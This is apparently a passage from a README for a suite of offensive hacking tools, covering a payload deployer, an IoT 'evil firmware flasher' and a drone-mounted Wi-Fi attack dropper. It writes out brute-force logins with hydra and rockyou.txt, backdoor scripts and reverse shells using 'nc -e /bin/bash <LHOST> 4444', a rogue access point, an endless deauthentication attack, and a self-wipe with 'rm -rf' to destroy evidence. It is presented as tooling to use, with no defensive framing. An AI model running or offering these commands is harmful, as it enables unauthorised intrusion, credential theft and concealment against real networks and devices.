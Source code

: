 ### Tools
- **Kali**: `bettercap`, `veil`, `python3` (http.server).

### Usage
- **Setup**: `sudo apt install bettercap veil`.
- **Run**: `sudo python3 poisonpunk.py`—enter `LHOST`, move EXE to `/tmp/poison.exe`.
- **Deploy**: Start listener (`nc -lvp 4444`), run on target network.
- **Output**: Shell session, logs in `poisonpunk.log`.

---

## 7. FirmPunk: Evil Firmware Flasher

### Purpose
Scans and brutes IoT devices—pivots to remote access via backdoor.

### Technical Process
1. **Scan**:
   - **Command**: `nmap -p 23,80 <target_ip>`—checks Telnet/HTTP.
   - **Details**: 10s timeout, parses `Nmap scan report for <ip>`—open ports indicate vuln devices.
2. **Brute Force**:
   - **Command**: `hydra -l admin -P /usr/share/wordlists/rockyou.txt <protocol>://<ip>`
   - **Details**: Tries `admin` with `rockyou.txt`—regex `r"login:\s+(\S+)\s+password:\s+(\S+)"` extracts creds.
3. **Manual Flash**: 
   - **Details**: Telnet/HTTP exploit assumed—e.g., `echo "nc -e /bin/bash <LHOST> 4444" > /tmp/backdoor.sh`.

### Tools
- **Kali**: `nmap`, `hydra`, `metasploit-framework`.

### Usage
- **Setup**: `sudo apt install nmap hydra metasploit-framework`.
- **Run**: `sudo python3 firmpunk.py`—enter target IP, `LHOST`.
- **Deploy**: Flash manually, start listener (`nc -lvp 4444`).
- **Output**: IPs/creds in console, shell session, logs in `firmpunk.log`.

---

## 8. DronePunk: Aerial WiFi Exploit Dropper

### Purpose
Deploys a WiFi attack from a Raspberry Pi (drone-mounted)—harvests creds, self-destructs.

### Technical Process
1. **Scan**: 
   - **Command**: `airodump-ng --output-format csv -w /home/pi/dronepunk_dump wlan0mon`—10s scan.
   - **Details**: Parses `/home/pi/dronepunk_dump-01.csv`—sorts by signal.
2. **Signal Boost**: `iwconfig wlan0 txpower 30`—max power.
3. **Rogue AP**: `hostapd-wpe hostapd.conf`—`ssid=<target>`, logs to `/var/log/hostapd-wpe.log`.
4. **Deauth**: `aireplay-ng --deauth 0 -a <bssid> wlan0mon`—infinite deauth.
5. **Capture & Callback**: 
   - **Details**: Monitors log for 5min, sends `nc -e /bin/bash <LHOST> 4444`, wipes Pi (`rm -rf /home/pi/*; reboot`).
